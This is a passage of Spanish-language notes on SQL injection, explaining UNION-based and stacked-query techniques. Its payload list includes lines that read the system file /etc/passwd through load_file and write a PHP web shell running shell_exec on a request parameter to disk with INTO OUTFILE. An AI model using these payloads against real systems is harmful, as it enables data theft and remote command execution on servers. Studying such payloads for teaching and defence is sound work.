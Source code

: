 ```sql
```

### Como podemos ver, en este ejemplo desde la consola, estariamos uniendo junto a una respuesta true, los datos que a nosotros nos interesarian dumpear de una base de datos en especifico, para esto es importante primero haber obtenido todas las columnas para una determinada tabla de una determinada base de dato como se explico anteriormente.


- # Inyección SQL basada en stacked queries:
### Este tipo de **SQLI** aprovecha la pobilidad de **ejecutar múltiples consultas** en una sola sentencia para obtener información adicional. Por ejempllo, se puede utilizar una consulta que inserta un registro en una tabla y luego agrega una consulta adicional que devuelve información sobre la tabla.

---

# Injecciones interesantes 

## Listar Base de datos en uso
```sql
SELECT x FROM x WHERE x='%s' UNION SELECT database() 
```
## Listar version de MySQL
```sql
SELECT x FROM x WHERE x='%s' UNION SELECT @@version
```
## Intentar leer un archivo del sistema 
```sql
SELECT x FROM x WHERE x='%s' UNION SELECT load_file('etc/passwd')
```
## Intentar ingresar un archivo en una ruta del sistema
```sql
SELECT x FROM x WHERE x='%s' UNION SELECT '<?php echo "<pre>" . shell_exec($_GET[\'cmd\']) . "</pre>"; ?>' INTO outfile '/tmp/file.php'
```

---

# Base de datos: 

### Es importante hacer una breve distinción entre los diferentes tipo de base de datos.
